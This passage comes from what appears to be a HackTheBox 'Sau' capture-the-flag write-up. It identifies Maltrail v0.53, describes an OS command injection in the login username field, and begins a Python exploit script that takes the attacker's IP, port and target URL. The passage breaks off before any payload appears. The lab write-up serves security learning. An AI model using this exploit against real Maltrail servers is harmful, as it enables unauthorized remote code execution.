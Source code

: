 ![alt text](/assets/img/hackthebox/sau/webpage2.PNG "Web Page")

This is a static webpage. The links at the top redirect the user to the [Maltrail Github repository](https://github.com/stamparm/maltrail). We see at the bottom that this page is powered by ```Maltrail v0.53```. A quick Google reveals that there is an [OS command injection vulnerability](https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py) in the username field of the login portal, allowing for remote code execution.

### Initial Access
The link is not present for the login portal, so we will assume it is the simple ```/login```. We use the following Python script to exploit this RCE vulnerability:

{% highlight python %}
#!/bin/python3

import sys
import os
import base64

# Arguments to be passed
YOUR_IP = sys.argv[1] # <your ip>
YOUR_PORT = sys.argv[2] # <your port>
TARGET_URL = sys.argv[3] # <target url>

print("\n[+]Started MailTrail version 0.53 Exploit")
